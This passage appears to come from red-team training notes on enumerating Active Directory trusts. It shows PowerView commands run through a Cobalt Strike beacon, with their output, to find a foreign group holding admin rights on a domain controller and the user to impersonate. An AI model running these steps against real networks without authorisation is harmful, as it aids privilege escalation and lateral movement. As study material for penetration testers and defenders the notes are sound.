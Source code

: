<mark style="color:yellow;">`Get-DomainForeignGroupMember`</mark> will enumerate any groups that contain users outside of its domain and return its members.

```
beacon> powershell Get-DomainForeignGroupMember -Domain dev-studio.com

GroupDomain             : dev-studio.com
GroupName               : Administrators
GroupDistinguishedName  : CN=Administrators,CN=Builtin,DC=dev-studio,DC=com
MemberDomain            : dev-studio.com
MemberName              : S-1-5-21-569305411-121244042-2357301523-1120
MemberDistinguishedName : CN=S-1-5-21-569305411-121244042-2357301523-1120,CN=ForeignSecurityPrincipals,DC=dev-studio,DC=com
```

This output shows that there's a member of the domain's built-in Administrators group who is not part of `dev-studio.com`.

**The `MemberName` field contains a SID that can be resolved in our current domain:**

```
beacon> powershell ConvertFrom-SID S-1-5-21-569305411-121244042-2357301523-1120

DEV\Studio Admins
```

This means that members of `DEV\Studio Admins` are also members of the built-in Administrators group of `dev-studio.com` and therefore inherit local admin access to `dc.dev-studio.com`.

**If this is confusing, this is how it looks like from the perspective of the foreign Domain Controller:**

<figure><img src="../.gitbook/assets/image (309).png" alt=""><figcaption></figcaption></figure>

### "Hopping" in a Trust

**To hop into a trust, we only need to impersonate a member of this Studio Admins Domain Group:**

```
beacon> powershell Get-DomainGroupMember -Identity "Studio Admins" | select MemberName

MemberName
----------
nlamb
```
